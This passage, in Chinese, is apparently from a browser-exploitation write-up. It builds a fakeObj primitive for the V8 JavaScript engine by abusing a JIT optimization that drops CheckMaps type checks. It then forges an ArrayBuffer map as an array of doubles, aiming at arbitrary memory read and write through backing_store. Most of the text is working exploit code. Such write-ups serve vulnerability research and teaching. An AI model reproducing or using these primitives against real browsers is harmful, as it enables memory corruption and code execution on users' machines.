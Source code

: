 ### <a class="reference-link" name="fakeObj%E5%8E%9F%E8%AF%AD"></a>fakeObj原语

fakeObj原语的实现和addrOf类似，只需要第二次对属性的访问`o.y1`是写操作即可，我们在回调函数中先把`o.y1`赋值为一个对象，后续的写操作由于消掉了`CheckMaps`节点仍会以double类型的方式往`o.y1`写入数据，执行完后返回的`o.y1`会按照对象来解析。因此我们可以指定任意的地址，该地址将作为对象被返回，实现fakeObj。

```
function fakeObj(addr)`{`
        function vulfunc4fake(a,b,o,value)`{`
            for(let i=0;i&lt;OPT_NUM;++i)`{``}`
            o.x1;
            a&amp;b;
            o.y1 = value;
            return o.x1;
        `}`
        let a1 = 11112222;
        let b2 = `{`
            valueOf: function()`{`
                return 11112333;
            `}`
        `}`
        let obj4 = new ArrayBuffer(0x30);
        let o = `{`x1:1.1,y1:1.2`}`;
        let b3 = `{`
            valueOf: function()`{`
                o.y1 = obj4;
                return 888888887777;
            `}`
        `}`
        vulfunc4fake(a1,b2,o,1.3);
        vulfunc4fake(a1,b2,o,1.3);
        let ret = vulfunc4fake(a1,b3,o,addr);
        return o.y1;
    `}`
```

### <a class="reference-link" name="%E4%BC%AA%E9%80%A0ArrayBuffer%20map"></a>伪造ArrayBuffer map

有了addrOf可以泄露对象的地址，利用fakeObj可以伪造对象，但是面临的一个问题就是每个对象都有map字段，若是不能得到一个正确合法的map，我们的对象是不能被正常解析的。实现任意地址读写一个很直观的思路就是伪造ArrayBuffer对象，控制`backing_store`字段即可任意地址读写，前提是得先伪造`ArrayBuffer map`。

伪造map只需要按照下面这个形式来伪造就行了：

```
var ab_map_obj = [
    -1.1263976280432204e+129,   //0xdaba0000daba0000，写死即可，这个数字应该无所谓
    2.8757499612354866e-188,     //这里是固定的标志位，直接打印一个ArrayBuffer，把对应于map这个位置的标志位用对应的double number写进去即可
    6.7349004654127717e-316,     //这里是固定的标志位，直接打印一个ArrayBuffer，把对应于map这个位置的标志位用对应的double number写进去即可
    -1.1263976280432204e+129,   // use prototype replace it
    -1.1263976280432204e+129,   // use constructor replace it
    0.0
];
```

